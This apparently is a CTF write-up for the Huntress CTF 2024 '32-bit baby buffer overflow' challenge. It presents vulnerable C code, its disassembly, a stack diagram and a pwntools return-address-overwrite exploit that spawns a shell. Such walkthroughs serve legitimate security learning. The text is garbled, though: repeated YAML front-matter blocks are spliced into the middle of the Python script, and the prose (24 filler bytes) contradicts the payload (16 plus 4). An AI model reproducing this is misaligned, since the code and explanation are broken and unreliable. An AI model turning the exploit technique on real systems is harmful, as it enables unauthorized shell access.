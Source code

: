 ```yaml
---
title:          "Baby Buffer Overflow - 32bit (Huntress CTF 2024)"
pubDate:        2024-11-27
description:    CTF ComSec CyberSecurity Write-up Huntress Huntress-CTF-2024
---
```


> Author: @aenygma
> 
> Can you command this program to where it cannot go?
> To get the flag, you must somehow take control of its excecution.
> Is it even possible?

Looking at the provided `C` code:

```c 
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
    puts("Jackpot!");
    char* executable="/bin/bash";
    char* argv[]={executable, NULL};
    execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```

We can tell that there is **no stack pointer protection**, and to help us, *position-independent executable* compiling is disable. This means function stack frames are placed back-to-back and addresses are as they would be. We want to hit the buffer in `vuln()` so that the `return` function returns back up to `target` instead of back to `main`. Decompiling the offered program in Binja, the `target` is mapped to location `080491f5  int32_t target()`, while the `vuln` is as follows:

```
08049236  int32_t vuln()

08049236  55                 push    ebp {__saved_ebp}
08049237  89e5               mov     ebp, esp {__saved_ebp}
08049239  83ec18             sub     esp, 0x18
0804923c  83ec0c             sub     esp, 0xc
0804923f  8d45e8             lea     eax, dword ptr [ebp-0x18 {var_1c}]
08049242  50                 push    eax {var_1c} {var_2c}
08049243  e8d8fdffff         call    gets
08049248  83c410             add     esp, 0x10
0804924b  b800000000         mov     eax, 0x0
08049250  c9                 leave    {__saved_ebp}
08049251  c3                 ret      {__return_addr}
```

We are interested in the location in the stack that stores the buffer, and the location that the `__saved_ebp` is pushed it. 
1. `push ebp {__saved_ebp}` stores the previous base stack pointer value to the stack, 
2. `mov ebp, esp {__saved_ebp}` sets the new stack base to the current stack pointer
3. `sub esp, 0x18` increases the stack by 0x18 bytes
4. `lea eax, dword ptr [ebp-0x18 {var_1c}]` calculates the effective address of *0x18 bytes behind the stack pointer*.

This is what it would look like:

```

    +----------+ \
    | ret addr | |
    +-        -+ |
    | ret addr | | 
    +-        -+ | portion we target
    | ret addr | |
    +-        -+ |
    | ret addr | |
    +----------+ / 
    | old ebp  |
    +-        -+
    | old ebp  |
    +-        -+
    | old ebp  |
    +-        -+
    | old ebp  |
    +----------+ <- ebp
    |          |
    +----------+ <- esp-0x18
      .......
    +----------+
    |          | 
    +----------+ <- esp

```

Starting from the `esp` below, data will get pushed in up until the last *blank* byte at `esp-0x18`. So by entering 24 random characters, we hit the and of the stack. The next four bytes are the `old esp` position, and above that is the precious `{__return_addr}`. We will need to key in `0x080491f5`, but not with ascii characters of course. So we use `pwntools` in python to help us.

```py
from pwn import *

target_function_address = 0x080491f5  # Address of target function

---
title:          "Construct the payload (Huntress CTF 2024)"
pubDate:        2024-11-27
description:    CTF ComSec CyberSecurity Write-up Huntress Huntress-CTF-2024
---

# Construct the payload

payload = b'A' * 16 + b'B' * 4 + p32(target_function_address)

---
title:          "Connect to the remote service (Huntress CTF 2024)"
pubDate:        2024-11-27
description:    CTF ComSec CyberSecurity Write-up Huntress Huntress-CTF-2024
---

# Connect to the remote service

p = remote("challenge.ctf.games", PORT)

---
title:          "Send the payload (Huntress CTF 2024)"
pubDate:        2024-11-27
description:    CTF ComSec CyberSecurity Write-up Huntress Huntress-CTF-2024
---

# Send the payload

p.sendline(payload)

---
title:          "Drop into interactive mode to access the shell (Huntress CTF 2024)"
pubDate:        2024-11-27
description:    CTF ComSec CyberSecurity Write-up Huntress Huntress-CTF-2024
---

# Drop into interactive mode to access the shell

p.interactive()
```

We get dropped into the shell after running this, and we are free to roam the world (and print the file containing the flag).

